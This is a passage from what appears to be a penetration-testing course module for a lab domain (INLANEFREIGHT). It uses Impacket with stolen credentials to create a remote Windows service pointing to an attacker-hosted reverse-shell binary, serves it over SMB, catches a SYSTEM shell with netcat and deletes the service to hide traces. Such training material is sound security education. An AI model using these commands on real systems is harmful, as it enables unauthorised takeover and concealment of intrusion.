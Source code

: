 [*] Creating service Service Backdoor
</code></pre>
<p>We can view the configuration of the custom command created using <code>config -name &lt;serviceName&gt;</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name 'Service Backdoor'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying service config for Service Backdoor
TYPE              : 16 -  SERVICE_WIN32_OWN_PROCESS  
START_TYPE        :  2 -  AUTO START
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : \\10.10.14.207\share\rshell-9001.exe
LOAD_ORDER_GROUP  : 
TAG               : 0
DISPLAY_NAME      : Service Backdoor
DEPENDENCIES      : /
SERVICE_START_NAME: LocalSystem
</code></pre>
<p>Before we run the service, we must ensure that the SMB server has the file that will be executed:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo smbserver.py share -smb2support ./
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
</code></pre>
<p>We must start our <code>Netcat</code> listener:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 9001
Listening on 0.0.0.0 9001
</code></pre>
<p>We can now start the service with <code>start -name &lt;serviceName&gt;</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name 'Service Backdoor' 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Starting service Service Backdoor
</code></pre>
<p>Looking at our attack host, we have successfully established a reverse shell:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.244] 62855
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt;whoami
whoami
nt authority\system
</code></pre>
<p>Finally, we can cover up the traces and delete the service by typing <code>delete -name &lt;serviceName&gt;</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 delete -name 'Service Backdoor'
Impacket v0.11.0 - Copyright 2023 Fortra

